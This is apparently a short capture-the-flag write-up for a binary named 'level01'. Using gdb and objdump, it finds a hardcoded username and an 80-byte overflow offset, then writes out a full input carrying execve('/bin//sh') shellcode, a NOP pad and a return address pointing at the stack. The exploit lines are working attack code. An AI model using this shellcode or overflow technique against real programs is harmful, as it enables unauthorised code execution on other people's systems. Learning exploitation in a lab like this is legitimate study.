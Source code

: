 
```
objdump -t level01 | grep bss
0804a040 g     O .bss	00000064              a_user_name

objdump -t level01 | grep text
080484d0 g     F .text	000000e6              main
08048464 g     F .text	0000003f              verify_user_name
```

```
disass main

 0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 
 0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
```

```
disass verify_user_name

0x0804847d <+25>:	mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

```
disass verify_user_pass

```
`cyclic 100`
```
Program received signal SIGSEGV, Segmentation fault.
0x61616175

Desktop cyclic -l 0x61616175
80
```

```
  0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  0x08048585 <+181>:	mov    %eax,0x5c(%esp)
  
  b *main+181
  
  run 
  
  Enter Username: dat_wil
  Enter Password:
  AAAA
  
  x/80wx $esp
  0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
  0xffffd690:	0xffffd8a1	0x0000002f	0xffffd6ec	0x41414141
```

also u can use the syntax:
`run < <(python -c 'print("dat_wil\nAAAA\n")')`
`run < <(python -c 'print("dat_wil")' && python -c 'print("AAAA")')` / `run < <(python -c 'print "dat_wil"' && python -c 'print "AAAA"')`

```
run < <(python -c 'print "dat_wil"' && python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 +  "\xff\xff\xd6\x9c"[::-1]')


x $ebp+4
0xffffd6ec:	0xffffd69c

x *0xffffd6ec
0xffffd69c:	0x99580b6a
```










